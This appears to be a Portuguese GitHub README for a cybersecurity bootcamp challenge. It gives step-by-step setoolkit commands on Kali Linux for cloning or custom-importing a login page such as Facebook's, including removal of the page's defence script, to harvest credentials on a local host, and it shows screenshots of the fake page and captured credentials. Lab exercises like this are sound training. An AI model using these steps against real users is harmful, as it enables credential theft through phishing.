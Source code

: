 # Desafio da DIO: Criando um *phishing* no kali-linux

Aqui eu segui a risca o passo a passo do instrutor, mas conforme foi apontado pelo usuário **RLLKLLSS** nesse [repositório](https://github.com/RLLKLLSS/cibersecurity-desafio-phishing), alguns desses sites, como o facebook que foi o exemplo do instrutor, há um script de defesa que torna a solução conforme foi apontada no vídeo impossível.

Dessa forma, seguindo o passo a passo apontado pelo **RLLKLLSS** e, no kali-linux você deve:

1. Acessar o root do kali-linux
```bash
sudo su
```

2. Iniciar o setoolkit (caso já esteja instalado)
```bash
setoolkit
```

3. "Setar" o tipo de ataque para **"1) Social-Engeneering Attacks"**
```bash
1
```

4. "Setar" o vetor de ataque para **"2) Web Site Attack Vectors"**
```bash
2
```

5. "Setar" o método de ataque para **"3) Credential Harvester Attack Method"**
```bash
3
```

6. Para definir o método de ataque em si
   1. Caso o site não possua o tal script de defesa, pode "setar" o método de ataque como **"2) Site Cloner"** e, dessa forma, depois de fornecermos um IP pra ele hostear, vamos copiar a página (.html) pelo link.
    ```bash
    2
    ```
    ```bash
    192.0.0.1
    ```
    ```bash
    http://www.linkdosite.com
    ```
   2. Caso contrário, temos que "setar" como **"3) Custom Import"**, "setar" o IP pra ele poder hostear, prover a página (index.html) base (baixando aa página, copiando e substituindo o código-fonte e apagando o script de defesa do botão de login), nomear o link e deixar ele escutando.
    ```bash
    3
    ```
    ```bash
    192.0.0.1
    ```
    ```bash
    /path/to/dir/page
    ```
    ```bash
    http://www.linkdosite.com
    ```

## Resultado
Conforme requerido pelo desafio, eis o resultado do *phishing* criado:

- Site falso hosteado localmente.
![Página falsa do Facebook](./pagina-facebook-falsa.png)

- Console do Kali-Linux (WSL) com as credencias roubadas.
![Console mostrando as credenciais](./credenciais-roubadas.png)
